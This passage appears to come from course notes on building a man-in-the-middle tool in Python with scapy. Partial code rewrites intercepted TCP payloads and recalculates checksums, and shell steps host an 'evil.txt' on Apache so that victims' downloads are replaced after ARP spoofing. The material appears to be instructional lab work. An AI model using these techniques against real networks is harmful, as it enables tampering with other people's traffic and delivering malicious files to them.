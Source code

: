 Converting the Packet
* since the response was modified, we also need to re-calculate the following fields
    * IP.len, IP.chksum, TCP.chksum
    * by removing them, `scapy` will re-calculate them 
    * confer to the chapter on DNS spoofing
    ```python
    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())
        ...
        scapy_packet[scapy.Raw].load = MODIFIED_LOAD
        del scapy_packet[scapy.IP].len
        del scapy_packet[scapy.IP].chksum
        del scapy_packet[scapy.TCP].chksum
        # these values are now recalculated automatically
    ```
* lastly, we need to convert the scapy packet back 
    * at the beginning of the `process_packet` function, we converted the packet to scapy format for easier analysis and manipulation
    * at the end, we need to convert it back to the original format, so it can processed in the queue 
    ```python
    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())
        ...
        packet.set_payload(str(scapy_packet))
        packet.accept()
    ```
Testing the Function
* if you have clicked the download link beforehand, the download may be cached 
* delete your browser history and cache to ensure proper functioning of the script
* you can use this [website](http://tux.rainside.sk/devuan/archive/devuan_ascii/desktop-live/) to intercept `txt` files 

### Intercepting and Replacing on the Network
Creating an Evil File
* using the apache server that we can host on Kali to deliver a malicious file
    * since this is in `root`, you have to use the super-user
    ```
    cd var/www/html
    echo "Hello,\nyou have been hacked!\nxD > evil.txt
    service apache2 start
    ```
Running MIM Programs
* redirect packets by setting `iptables` rules
* now start the `arp_spoofer.py` and the `replace_download.py`
* the results should look like this:

<img src="08_intercepting_download.png" /> 
